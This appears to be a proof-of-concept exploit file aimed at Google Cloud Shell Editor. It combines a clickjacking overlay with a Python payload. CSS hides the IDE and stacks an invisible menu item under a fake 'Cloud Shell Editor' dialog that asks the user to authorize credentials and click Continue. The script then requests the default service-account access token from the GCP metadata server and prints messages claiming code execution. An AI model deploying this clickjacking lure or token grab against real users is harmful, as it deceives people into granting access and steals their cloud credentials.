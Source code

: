 '''
[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?hl=en&show=ide&cloudshell_git_repo=https://github.com/Nowasky/03.git&open_in_editor=README.md)
<svg><style>#theia-top-panel,#theia-left-content-panel,#theia-main-content-panel,#theia-right-content-panel,#theia-statusBar,.p-SplitPanel-handle {visibility:hidden} #theia-bottom-content-panel {opacity: 0.5!important; z-index:1!important} #theia-app-shell .exploit {display: block; visibility: visible;z-index:998}.p-Menu-item,.p-MenuBar-item{display:none}.p-MenuBar,.p-MenuBar-item:nth-child(6){visibility: visible!important;display:block;position:fixed;z-index:999;opacity:0;height:9999px;width:9999px;top:0;left:0}.p-Menu-item:nth-child(2){visibility: visible!important;display:block!important;position:fixed;z-index:999;opacity:0;max-height:none;height:100%;width:100%;top:0;left:0;opacity:0}.p-MenuBar-menu{visibility: visible!important;width:100%;height:100%;opacity:0!important}.p-mod-active{display:none}</style></svg>
<div class="exploit">
<div style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: none;
top: 0;
left: 0;
height: 100%;
width: 100%;
position: fixed;
z-index: 998;">
<div style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
position: absolute;
top: 0;
bottom: 0;
left: 0;
right: 0;
z-index: 998;
pointer-events: auto;
-webkit-tap-highlight-color: transparent;
transition: opacity .4s cubic-bezier(.25,.8,.25,1);
background: rgba(0,0,0,.6);
opacity: 1;"></div>
<div dir="ltr" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
direction: ltr;
unicode-bidi: isolate;
pointer-events: none;
top: 0;
left: 0;
height: 100%;
width: 100%;
display: flex;
position: absolute;
z-index: 998;
justify-content: center;
align-items: center;">        
<div id="cdk-overlay-0" style="color: rgba(0,0,0,.87);
z-index: 998;
box-sizing: border-box;
padding: 20px 0;
display: flex;
-webkit-box-orient: vertical;
-webkit-box-direction: normal;
flex-direction: column;
min-width: 700px;
max-width: 700px;
max-height: 100%;
pointer-events: auto;
position: static;">
<div tabindex="0" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: auto;
border: 0;
clip: rect(0 0 0 0);
height: 1px;
margin: -1px;
overflow: hidden;
padding: 0;
position: absolute;
width: 1px;
outline: 0;" aria-hidden="true"></div>
<div aria-modal="true" tabindex="-1" id="mat-dialog-0" role="dialog" aria-labelledby="mat-dialog-title-0" style="pointer-events: auto;
background: #fff;
color: rgba(0,0,0,.87);
box-sizing: border-box;
overflow: auto;
outline: 0;
width: 100%;
height: 100%;
min-height: inherit;
max-height: inherit;
display: flex;
z-index:9999;
-webkit-box-orient: vertical;
-webkit-box-direction: normal;
flex-direction: column;
padding: 0;
box-shadow: 0 1px 3px 0 rgba(60,64,67,.3),0 4px 8px 3px rgba(60,64,67,.15);
border-radius: 8px;
transform: none;">
<div _nghost-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
display: flex;
flex-direction: column;
height: 100%;
overflow: hidden;">
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 5000;
flex-basis: 5px;"></div>
<h1 _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 18px/24px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: normal;
display: block;
margin: 18px 0 0 20px;
flex-shrink: 0;
flex-grow: 0;" mat-dialog-title="" id="mat-dialog-title-0">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 18px/24px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: normal;"></div> Cloud Shell Editor</h1>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 1000;
flex-basis: 10px;"></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;
display: block;
max-height: 65vh;
margin: 0;
padding: 18px 20px 10px 20px;
flex-shrink: 1;
flex-grow: 1000;
overflow: auto;" mat-dialog-content="">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;"></div>
 Cloud Shell Editor is powered by the Eclipse Theia IDE platform. It comes pre-configured with all the tools you need to get going with cloud-native development on Google Cloud. 
<p class="ng-star-inserted" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
font: 400 14px/20px Roboto,Helvetica Neue,sans-serif;
letter-spacing: .2px;"> In order to continue using this product, you must authorize the use of your credentials on the next screen. </p><!----></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 1000;
flex-basis: 30px;
min-height: 5px;"></div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
display: flex;
flex-wrap: wrap;
align-items: center;
box-sizing: content-box;
margin: 0;
padding: 0 0 18px 20px;
min-height: 0;
flex-shrink: 0;
flex-grow: 0;" mat-dialog-actions="">
<div _ngcontent-wbv-c54="" templatehost="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;"></div>
<button mat-flat-button="" style="pointer-events: auto;
-webkit-box-direction: normal;
box-sizing: border-box!important;
position: relative;
user-select: none;
cursor: pointer;
outline: none;
border: none;
-webkit-tap-highlight-color: transparent;
display: inline-block;
white-space: nowrap;
text-decoration: none;
vertical-align: baseline;
text-align: center;
margin: 0;
min-width: 64px;
overflow: visible;
height: 30px;
border-radius: 4px;
padding: 0 24px;
box-shadow: 0 0 0 0 rgba(0,0,0,.2),0 0 0 0 rgba(0,0,0,.14),0 0 0 0 rgba(0,0,0,.12);
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
background: #1a73e8;
color: #fff;
margin-right: 10px;">
<span style="pointer-events: auto;
-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;"> Continue </span>
<span style="-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;
overflow: hidden;
top: 0;
left: 0;
right: 0;
bottom: 0;
position: absolute;
pointer-events: none;
border-radius: inherit;" matripple=""></span>
<span style="-webkit-box-direction: normal;
user-select: none;
cursor: pointer;
-webkit-tap-highlight-color: transparent;
white-space: nowrap;
text-align: center;
font: 500 14px/18px Google Sans,Helvetica Neue,sans-serif;
letter-spacing: .25px;
color: #fff;
background: #000;
top: 0;
left: 0;
right: 0;
bottom: 0;
position: absolute;
pointer-events: none;
border-radius: inherit;
opacity: 0;
transition: none;"></span>
</button>
</div>
<div _ngcontent-wbv-c54="" style="pointer-events: auto;
color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
flex-grow: 0;
flex-shrink: 5000;
flex-basis: 5px;"></div>
</div></div>
<div tabindex="0" style="color: rgba(0,0,0,.87);
-webkit-box-direction: normal;
pointer-events: auto;
border: 0;
clip: rect(0 0 0 0);
height: 1px;
margin: -1px;
overflow: hidden;
padding: 0;
position: absolute;
width: 1px;
outline: 0;" aria-hidden="true"></div> 
</div>
</div>
</div>
</div>
<!--'''

print('Arbitrary Code Execution')
import requests
r = requests.get('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token', headers={"Metadata-Flavor":"Google"})
print('Access to user\'s tokens requested')
